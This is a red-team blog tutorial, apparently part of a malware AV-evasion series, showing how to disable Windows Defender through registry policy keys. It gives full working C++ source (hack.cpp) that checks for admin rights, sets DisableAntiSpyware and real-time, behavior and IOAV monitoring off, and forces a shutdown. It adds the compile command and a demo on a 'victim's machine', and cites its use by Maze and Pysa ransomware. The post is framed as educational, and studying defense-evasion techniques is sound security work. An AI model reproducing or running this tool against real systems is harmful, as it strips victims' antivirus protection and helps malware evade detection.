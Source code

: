 ```yaml
---
title:  "Malware AV evasion: part 7. Disable Windows Defender. Simple C++ example."
date:   2022-06-05 10:00:00 +0600
header:
  teaser: "/assets/images/57/2022-06-05_12-21.png"
categories:
  - tutorial
tags:
  - malware
  - windows
  - evasion
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!    

![av](/assets/images/57/2022-06-05_12-21.png){:class="img-responsive"}    

This article is the result of my own research into one of the most common tricks used by malware in the wild.    

### windows defender

The anti-malware software Windows Defender (now known as Microsoft Defender Antivirus) protects your computer from external threats. Microsoft has developed the antivirus to safeguard `Windows 10` computers from virus threats.

This antivirus is preinstalled on all `Windows 10` editions.

To avoid possible detection of their malware/tools and activities, adversaries may modify or disable security tools. For example Windows Defender.

### practical example

Let's go to try disable Windows Defender Antivirus via modifying Windows registry. First of all, it is important to remember that disabling requires administrator rights. In active mode, Microsoft Defender Antivirus serves as the device's primary antivirus program.
Threats are remedied and detected threats are listed in your organization's security reports and Windows Security application. To disable all this you just need to modify the registry keys:

```cpp
LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, "SOFTWARE\\Policies\\Microsoft\\Windows Defender", 0, KEY_ALL_ACCESS, &key);
if (res == ERROR_SUCCESS) {
  RegSetValueEx(key, "DisableAntiSpyware", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegCreateKeyEx(key, "Real-Time Protection", 0, 0, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, 0, &new_key, 0);
  RegSetValueEx(new_key, "DisableRealtimeMonitoring", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableBehaviorMonitoring", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableScanOnRealtimeEnable", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableOnAccessProtection", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
  RegSetValueEx(new_key, "DisableIOAVProtection", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));

  RegCloseKey(key);
  RegCloseKey(new_key);
}
```

But as I wrote earlier, this requires admin rights, for this we create a function which check this:

```cpp
// check for admin rights
bool isUserAdmin() {
  bool isElevated = false;
  HANDLE token;
  TOKEN_ELEVATION elev;
  DWORD size;
  if (OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &token)) {
    if (GetTokenInformation(token, TokenElevation, &elev, sizeof(elev), &size)) {
       isElevated = elev.TokenIsElevated;
    }
  }
  if (token) {
    CloseHandle(token);
    token = NULL;
  }
  return isElevated;
}
```

Since Windows Vista, UAC has been a crucial feature for mitigating some risks associated with privilege elevation. Under UAC, local Administrators group accounts have two access tokens, one with standard user privileges and the other with administrator privileges.
All processes (including the Windows explorer - `explorer.exe`) are launched using the standard token, which restricts the process's rights and privileges. If the user desires elevated privileges, he may select *"run as Administrator"* to execute the process.
This opt-in grants the process all administrative privileges and rights.

A script or executable is typically run under the standard user token due to UAC access token filtering, unless it is "run as Administrator" in elevated privilege mode. As a developer or hacker, it is essential to understand the mode in which you are operating.

So, full PoC script to disable Windows Defender is something like:

```cpp
/*
hack.cpp
disable windows defender dirty PoC
author: @cocomelonc
https://cocomelonc.github.io/tutorial/2022/06/05/malware-av-evasion-7.html
*/

#include <cstdio>
#include <windows.h>

// check for admin rights
bool isUserAdmin() {
  bool isElevated = false;
  HANDLE token;
  TOKEN_ELEVATION elev;
  DWORD size;
  if (OpenProcessToken(GetCurrentProcess(), TOKEN_QUERY, &token)) {
    if (GetTokenInformation(token, TokenElevation, &elev, sizeof(elev), &size)) {
       isElevated = elev.TokenIsElevated;
    }
  }
  if (token) {
    CloseHandle(token);
    token = NULL;
  }
  return isElevated;
}

// disable defender via registry
int main(int argc, char* argv[]) {
  HKEY key;
  HKEY new_key;
  DWORD disable = 1;

  if (!isUserAdmin()) {
    printf("please, run as admin.\n");
    return -1;
  }

  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, "SOFTWARE\\Policies\\Microsoft\\Windows Defender", 0, KEY_ALL_ACCESS, &key);
  if (res == ERROR_SUCCESS) {
    RegSetValueEx(key, "DisableAntiSpyware", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegCreateKeyEx(key, "Real-Time Protection", 0, 0, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, 0, &new_key, 0);
    RegSetValueEx(new_key, "DisableRealtimeMonitoring", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableBehaviorMonitoring", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableScanOnRealtimeEnable", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableOnAccessProtection", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));
    RegSetValueEx(new_key, "DisableIOAVProtection", 0, REG_DWORD, (const BYTE*)&disable, sizeof(disable));

    RegCloseKey(key);
    RegCloseKey(new_key);
  }

  printf("perfectly disabled :)\npress any key to restart to apply them.\n");
  system("pause");
  system("C:\\Windows\\System32\\shutdown /s /t 0");
  return 1;
}
```

### demo

Let's go to see everything in action. First of all, check our defender:

![av](/assets/images/57/2022-06-05_12-19.png){:class="img-responsive"}    

and check registry keys:

```powershell
reg query "HKLM\Software\Policies\Microsoft\Windows Defender" /s
```

![av](/assets/images/57/2022-06-05_12-15.png){:class="img-responsive"}    

As you can see, we have standard registry keys.   

Then, let's go to compile our script from attacker's machine:

```bash
x86_64-w64-mingw32-g++ -O2 hack.cpp -o hack.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![av](/assets/images/57/2022-06-05_12-03.png){:class="img-responsive"}    

And run it on the victim's machine:

```powershell
.\hack.exe
```

![av](/assets/images/57/2022-06-05_12-17.png){:class="img-responsive"}    

According to the logic of the our program, the machine turns off. Then, turn on it again and check:

```powershell
reg query "HKLM\Software\Policies\Microsoft\Windows Defender" /s
```

![av](/assets/images/57/2022-06-05_12-20.png){:class="img-responsive"}    

![av](/assets/images/57/2022-06-05_12-20_1.png){:class="img-responsive"}    

For correctness, check via Windows Defender Security Center:

![av](/assets/images/57/2022-06-05_12-22.png){:class="img-responsive"}    

![av](/assets/images/57/2022-06-05_13-17.png){:class="img-responsive"}    

As you can see, everything is worked perfectly!    

But of course, this trick is not new, nowadays threat actors may tamper with artifacts deployed and utilized by security tools. Security products may load their own modules and/or modify those loaded by processes to facilitate data collection. Adversaries may unhook or otherwise modify these features added by tools to avoid detection.    

This trick is used by [Maze](https://attack.mitre.org/software/S0449/) and [Pysa](https://attack.mitre.org/software/S0583/) ransomwares in the wild.    

For the next part, I'll learn and research a trick, the point of which is to deprive the antivirus process of privileges, thanks to which it can check files for malware.   

[MITRE ATT&CK. Impair Defenses: Disable or Modify Tools](https://attack.mitre.org/techniques/T1562/001/)    
[Gorgon Group](https://attack.mitre.org/groups/G0078/)    
[H1N1 Malware](https://attack.mitre.org/software/S0132/)    
[Maze ransomware](https://attack.mitre.org/software/S0449/)    
[Pysa ransomware](https://attack.mitre.org/software/S0583/)     
[source code on github](https://github.com/cocomelonc/meow/tree/master/2022-06-05-malware-av-evasion-7)    

> This is a practical case for educational purposes only.      

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*
